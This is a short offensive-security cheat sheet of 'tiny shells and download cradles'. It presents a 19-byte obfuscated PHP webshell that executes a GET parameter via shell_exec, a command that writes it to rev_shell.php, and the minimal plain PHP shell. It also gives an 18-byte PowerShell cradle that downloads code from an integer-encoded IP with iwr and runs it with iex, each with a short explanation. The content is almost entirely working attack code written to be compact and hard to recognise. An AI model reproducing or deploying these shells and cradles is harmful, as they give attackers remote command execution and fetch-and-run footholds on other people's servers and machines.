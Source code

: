 # Tiny-Shells and Download Cradles

All kinds of tiny shells or download cradles. It's all about minimization.

## PHP - Webshell (19 bytes)

Source: https://gist.github.com/0xSojalSec/5bee09c7035985ddc13fddb16f191075

```php
<?=`{${~"\xa0\xb8\xba\xab"}["\xa0"]}`;
```

in Terminal:
```bash
echo -ne '<?=`{${~\xa0\xb8\xba\xab}[\xa0]}`;' > rev_shell.php
```
This is how the code will be produced, \xa0\xb8\xba\xab will be 
treated as constant therefore no " needed. It is also not copyable
string because of non-ascii characters.
 
 Explanation:
 * ~"\xa0\xb8\xba\xab" <-> "_GET"
 * ${"_GET"}["\xa0"] <-> $_GET["\xa0"]
 * `{$_GET["\xa0"]}` <-> shell_exec($_GET["\xa0"])
 
This is only 5 bytes longer than the shortest PHP shell (using $_GET to smuggle data)! 
 <?=`$_GET[_]`;
  
This is a slightly improved idea that I had 2 years ago
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2

Author: https://gist.github.com/0xSojalSec

## PowerShell - Download Cradle (18 bytes)

Source: https://twitter.com/johnxor2/status/1620365760462991361

```powershell
."iwr"16843009|iex
```

Explanation:
* `iwr` = Invoke Web-Request
* `16843009` = Integer of IP address `1.1.1.1` (convert: https://www.browserling.com/tools/dec-to-ip)
* `|` = pipe the respone to
* `iex` = Invoke-Expression

Author: https://twitter.com/johnxor2
